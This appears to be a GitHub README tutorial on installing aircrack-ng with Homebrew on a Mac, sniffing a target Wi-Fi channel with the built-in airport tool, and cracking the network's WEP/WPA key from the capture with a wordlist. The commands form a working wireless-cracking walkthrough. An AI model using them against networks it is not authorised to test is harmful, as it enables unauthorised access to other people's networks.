 # Install Aircrack-ng, Sniffing by Airport, and using Aircracking-ng on Mac

<h2>1. Install HomeBrew</h2> 
at https://brew.sh by terminal. Paste that at a Terminal prompt.


<blockquote><p>/usr/bin/ruby -e "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/master/install)"</p></blockquote>

<h2>2. Install the aircrack-ng and create necessary links:</h2>

  With the homebrew installed, use this command to install aircrack-ng:
  
<blockquote><p>brew install aircrack-ng</p></blockquote>

  Link the folder from Homebrew "/usr/local/Cellar/" to the "/usr/local/bin/" in order to use the program directly on terminal. The number 1.3 can be replaced to the version you install. 
  
<blockquote><p>sudo ln -s /usr/local/Cellar/aircrack-ng/1.3/bin/aircrack-ng /usr/local/bin/aircrack-ng</p></blockquote>

  Other tool that will be necessary is the airport. So we will create a other link to use directly on terminal. Airport is already inside Mac OS. We use Airport to scan the wifis, disconnect to wifis, turn on mornitor mode and sniffing.

<blockquote><p>sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/local/bin/airport</p></blockquote>

<h2>3. Scanning wifis and disconnect to network:</h2>

  While we turn the wifi card to the monitor mode, we can not use the scanning function normally. The purpose of airport is scanning the wifis nearby and show information about that network, such as: SSID, BSSID, channel, RSSI...
Use the following command to check:

<blockquote><p>airport -s</p></blockquote>

  Now in order to turn wifi card to mornitor mode, we have to disconnect with any network is connecting. You can do it by manual go to Network Preferences then unselect on Automatically join this network. Do this until it does not connect to any network. Or you just type the following command:

<blockquote><p>airport -z</p></blockquote>

  To check it working or not, by simply see the wifi simple on the menu bar on the top. Or type:

<blockquote><p>ifconfig</p></blockquote>

  and check the line status: inactive

<h2>4. Sniff the traffic on channel</h2>

  Sniff the channel selected.

<blockquote><p> airport "interface" sniff "channel" </p></blockquote>

  <interface> is the name of the wifi card. Mine is "en0". Get this from 
ifconfig
  <channel> is the channel of the wifi network target. Get this from
airport -s
    
  The sniffing action create a file airportSniff*.cap. You can see it at:

<blockquote><p>ls /tmp/airportSniff*.cap</p></blockquote>

  The longer the sniffing the better data we have.

Then we will pass this file to aircrack-ng

<h2>5. Using Aircrack-ng</h2>

<blockquote><p>aircrack-ng -1 -a 1 -b "BSSID" "cap_file" -w "wordlist"</p></blockquote>

      -1            : run only 1 try to crack key with PTW  
      -a <amode>    : force attack mode (1/WEP, 2/WPA-PSK)
      -b <bssid>    : target selection: access point's MAC
      <cap_file>    : the sniffing file we have from part 4 airportSniff*.cap
      -w <wordlist> : path to wordlist(s) filename(s). This optional but a good wordlist have greater chance to succeed 

<h2>6. Turn off mornitor mode</h2>

  Using the ps program displays the currently-running processes

<blockquote><p>ps -ax | grep -a airport.*sniff</p></blockquote>

find the airport <interface> sniff <channel> line and get the four number on the left
 
<blockquote><p>sudo kill -9 "the-four-number"</p></blockquote> 







